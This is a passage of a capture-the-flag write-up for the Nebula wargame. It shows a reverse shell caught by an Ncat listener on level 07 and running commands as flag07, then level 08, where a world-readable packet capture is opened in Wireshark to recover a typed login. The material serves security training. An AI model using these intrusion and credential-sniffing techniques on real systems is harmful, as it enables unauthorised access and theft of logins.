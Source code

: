 We obtain a shell with our listener.

```shell
Ncat: Connection from 192.168.144.192.
Ncat: Connection from 192.168.144.192:53371.
bash: no job control in this shell
flag07@nebula:/home/flag07$ whoami
whoami
flag07
flag07@nebula:/home/flag07$ id
id
uid=992(flag07) gid=992(flag07) groups=992(flag07)
flag07@nebula:/home/flag07$ getflag
getflag
You have successfully executed getflag on a target account
```

# level 08

For this level, we are told to check for world-readable files.

```shell
level08@nebula:~$ ls -lah /home/flag08
total 14K
drwxr-x--- 2 flag08 level08   86 2012-08-19 03:07 .
drwxr-xr-x 1 root   root     100 2012-08-27 07:18 ..
-rw-r--r-- 1 flag08 flag08   220 2011-05-18 02:54 .bash_logout
-rw-r--r-- 1 flag08 flag08  3.3K 2011-05-18 02:54 .bashrc
-rw-r--r-- 1 root   root    8.2K 2011-11-20 21:22 capture.pcap
-rw-r--r-- 1 flag08 flag08   675 2011-05-18 02:54 .profile
```

We see a world-readable `capture.pcap` file. We download and open it in
Wireshark for analysis. Following the TCP stream, we see what appears to be
a login sequence over a virtual terminal. `7f` is the DEL character in ASCII
which will correspond with the backspace key being entered.

![Wireshark image](assets/nebula-wireshark.png)
